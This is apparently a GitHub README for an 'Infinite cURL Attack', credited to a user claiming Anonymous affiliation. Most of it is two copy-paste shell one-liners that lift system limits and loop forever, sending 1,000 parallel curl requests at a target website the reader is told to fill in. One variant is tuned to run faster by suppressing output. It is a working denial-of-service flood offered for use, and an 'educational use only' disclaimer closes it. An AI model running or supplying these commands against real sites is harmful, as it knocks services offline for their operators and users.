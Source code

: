 <img src="https://i.pinimg.com/originals/23/a1/1f/23a11f14ab93d3ed4541960141e380ad.gif" width="200" alt="Security Tools by gh0$t. Affiliation : Anonymous (hacker group, global)." title="Security Tools by gh0$t. Affiliation : Anonymous (hacker group, global)." />  

# Infinite_cURL_Attack
Infinite cURL Attack

**USAGE** : Copy-Paste-Edit the following code (replace **_https://Your.Target.Website.com_** with your target website) in the Terminal/CMD & press Enter.  

```
ulimit -t unlimited; ulimit -f unlimited; ulimit -m unlimited; ulimit -u unlimited; ulimit -n 100000; ulimit -s unlimited; ulimit -v unlimited; while (true); do seq 1 1000 | xargs -n1 -P 1000 curl -I -i -v -H "Connection: keep-alive" -H "Referer: https://google.com" "https://Your.Target.Website.com"; done;
```  

If you don't want logs in your terminal and make the attacks faster, do this (**the following is my preference**):  

```
ulimit -t unlimited; ulimit -f unlimited; ulimit -m unlimited; ulimit -u unlimited; ulimit -n 100000; ulimit -s unlimited; ulimit -v unlimited; while (true); do seq 1 1000 | xargs -n1 -P 1000 curl -s -H "Connection: keep-alive" -H "Referer: https://google.com" "https://Your.Target.Website.com" > /dev/null; done;
```  

**IMPORTANT:**  
THIS SOFTWARE IS PROVIDED FOR EDUCATIONAL USE ONLY!  
IF YOU ENGAGE IN ANY ILLEGAL ACTIVITY THE AUTHOR DOES NOT TAKE ANY RESPONSIBILITY FOR IT.  
BY USING THIS SOFTWARE YOU AGREE WITH THESE TERMS.
